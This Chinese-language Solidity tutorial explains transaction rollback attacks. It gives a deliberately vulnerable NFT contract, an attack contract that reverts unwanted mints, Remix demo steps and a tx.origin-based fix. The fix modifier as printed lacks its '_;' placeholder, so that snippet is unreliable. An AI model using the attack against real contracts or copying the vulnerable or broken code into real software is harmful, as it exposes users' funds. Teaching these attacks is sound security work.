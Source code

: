 # 交易回滚攻击

## 原理分析

以太坊 EVM 支持交易回滚，合约可以使不满足条件的调用失败，从而回滚部分或者整个交易。

- 交易回滚

使用 `assert()`，`require()` 和 `revert()` 可以使不满足条件的调用失败，配合 `try`，`catch` 可以回滚部分或者整个交易。

- 回滚攻击

如果业务合约允许合约调用或者调用了第三方合约，那么合约调用和第三方合约就可以利用交易回滚，撤销不符合自己期望的执行结果，从而达成攻击的目的。

## 流程图示

- 交易回滚
```mermaid
graph TB
    sender[调用者] -- 1 --> startContract[调用合约] -- 2 --> contract[业务合约] -- 3 --> startContract
```

- 回滚攻击
```mermaid
graph TB
    start[方法开始] --> contract[调用业务合约] --> check{调用结果是否符合预期} -- 符合预期 --> endIt[方法结束]
    check -- 不符合预期 --> rollback[交易回滚]
```

## 示例代码

这是一个简单的 NFT 合约示例，它的功能购买 NFT 时随机抽取。如果你看不出合约的问题，说明你正需要学习这节课。(这个合约有巨大漏洞，请不要直接使用在任何实际业务中)

```solidity
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.12;

import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

interface INFT {
    function buyNFT() external payable;
}

contract NFT is ERC721 {
    uint256 tokenId;

    constructor() ERC721("NFT","NFT") {}

    function buyNFT() external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
}

contract TransactionRollbackAttack {
    INFT nft;
    uint256 tokenId;

    constructor(address _nft) {
        nft = INFT(_nft);
    }

    function doBuyNFT(uint256 _tokenId) external payable {
        tokenId = _tokenId;
        nft.buyNFT{value: msg.value}();
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 _tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        require(tokenId == _tokenId, "NFT: not the correct token");
        return this.onERC721Received.selector;
    }
}
```

## 演示流程

1. 打开 [https://remix.ethereum.org/](https://remix.ethereum.org/)

2. 选择 solidity 版本为 0.8.12，部署 NFT 合约。

3. 将 NFT 合约地址作为参数部署 TransactionRollbackAttack 合约。

4. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，点击 transact，成功购买 tokenId 为 0 的 NFT。

5. value 选择 1 Ether，点击 TransactionRollbackAttack 合约的 doBuyNFT 方法，参数输入 0，购买 tokenId 为 0 的 NFT 失败。

## 修复问题

- 禁止合约调用
    ```solidity
    modifier noContract() {
        require(tx.origin == msg.sender, "NFT: not contract");
    }

    function buyNFT() noContract external payable {
        require(msg.value >= 1 ether, "NFT: You must pay 1 ether to buy an NFT");
        _safeMint(msg.sender, tokenId++);
    }
    ```
    使用 noContract 来禁止合约调用，可以防止交易回滚攻击。